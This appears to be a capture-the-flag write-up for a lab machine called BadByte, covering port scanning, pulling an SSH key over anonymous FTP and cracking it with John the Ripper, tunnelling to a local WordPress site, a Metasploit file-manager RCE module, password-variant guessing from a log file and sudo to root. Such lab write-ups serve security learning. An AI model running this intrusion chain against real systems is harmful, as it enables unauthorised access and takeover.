 # BadByte Write-up - Easy

## Nmap 

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 30024: tcp. vsftpd 3.0.3. Anonymous login allowed

None of the versions appear to be vulnerable.


## FTP and John the Ripper

```
ftp <ip> 30024
get note.txt
get id_rsa
```
note.txt informs us about the key in the same directory and gives us the username **errorcauser**, so I downloaded it and used ssh2john with John the Ripper to attempt to crack the private key.

```
ssh2john id_rsa > johnkey
john --wordlist=rockyou.txt johnkey
```

which quickly cracked the credentials: **errorcauser : cupcake**.


## SSH

```
chmod 600 id_rsa
ssh errorcauser@<ip> -i id_rsa -D 1337
```

I now have an initial shell on the machine. Reading note.txt in the current directory gives some interesting information:
```
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```
This may indicate that the current theme is vulnerable.


## Wordpress Enumeration

After using dynamic port forwarding to bypass the firewall, I evaluated the web server running on port 80 using nmap with http-wordpress-enum and wpscan.

```
proxychains nmap -sT 127.0.0.1 --script=http-wordpress-enum
wpscan --url http://127.0.0.1:<port> -e ap,at -vv
```

note.txt indicated that the theme might be vulnerable, and running searchsploit on the installed duplicator plugin found by nmap confirmed an arbitrary file read exploit.

The more interesting vulnerability, though, is in the wp-file-manager plugin with version 6.0.

```
msfconsole
use exploit/multi/http/wp_file_manager_rce 
<set options>
run
```
This gave me a meterpreter session, where I could find the flag in cth's home directory.


## Privilege Escalation to root

When browsing the file system, I found an interesting file /var/log/bash.log. This contained the password **G00dP@$sw0rd2020** so I tried to ssh to the cth user with this password.

```
ssh cth@<ip> -i id_rsa -D 1337
```

However, it said the password was incorrect. After some head scratching, I tried to brute force ssh with some similar passwords, and eventually got in with **G00dP@$sw0rd2021**.

Evaluating the sudo permissions to find a privilege escalation vector:
```
sudo -l
User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```

Since I can run all commands with sudo, I simply ran sudo bash to get root and find the final flag.
```
sudo bash
cat /root/root.txt
```
